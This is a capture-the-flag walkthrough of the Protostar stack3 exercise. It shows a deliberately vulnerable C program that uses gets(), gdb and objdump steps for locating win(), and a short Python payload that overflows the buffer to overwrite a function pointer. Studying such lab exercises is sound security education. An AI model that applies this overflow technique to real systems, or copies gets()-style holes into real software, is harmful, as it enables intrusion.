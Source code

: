 ```yaml
---
title: "Protostar stack3 walkthrough"
date: 2020-05-21
tags: [ctf, protostar, stack3, walkthrough]
header:
  image: "/images/protostar/protostar.png"
---
```


## Protostar exercises - [stack3](https://exploit-exercises.lains.space/protostar/stack3/)

#### About
Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

Hints

both gdb and objdump is your friend you determining where the win() function lies in memory.
This level is at /opt/protostar/bin/stack3

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

#### Procedure:

Similar to stack0, the program is using `gets()` function to write input into a buffer. And the variable 'fp' which is a function pointer needs to be changed from 0 to address of 'win' function.

So first we need to find 'win' address using objdump and write it to the address of 'fp' variable

##### Vulnerability:

`gets` is vulnerable as it is impossible to tell how many characters gets() will reaed. it will continue to store the characters past the end of buffer.
`fgets` needs to be used instead.


##### Disassembly:

![disassembly]({{site.url}}{{site.baseurl}}/images/protostar/stack3/disassemble.png)

'fp' is stored at $esp+0x5c. It is moved into eax and called at 0x08048477. Out aim is to overwrite $esp value at this point. Lets put breapoint at this call.

```
break *0x08048475
```

Lets execute with input large enough to change $eax

```
r
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
![registers]({{site.url}}{{site.baseurl}}/images/protostar/stack3/registers.png)

We can see that $eax is changed to 0x41414141

We can find address of 'win' using `x win`
```
(gdb) x win
0x8048424 <win>:        0x83e58955
```

Now, we need to find which part of input is being written to $eax and change it to 0x8048424

So, lets run with input AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS and check the registers

![registers-2]({{site.url}}{{site.baseurl}}/images/protostar/stack3/registers-2.png)

$eax contains 0x53535353, which is 'SSSS'

Lets create a simple python program to create the string
```
padding = "AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR"
padding += "\x24\x84\x04\x08"
print padding
```
Lets use the output of this to run stack3

```
python stack3.py > exp
(gdb) r < /home/user/exp
info registers
```

We see $eax is now 0x8048424. So, next instruction would be to execute $eax or win() and print success

![done]({{site.url}}{{site.baseurl}}/images/protostar/stack3/done.png)

We can also find the address of win() using
```
user@protostar:/opt/protostar/bin$ objdump -x ./stack3 | grep win
08048424 g     F .text  00000014              win
```

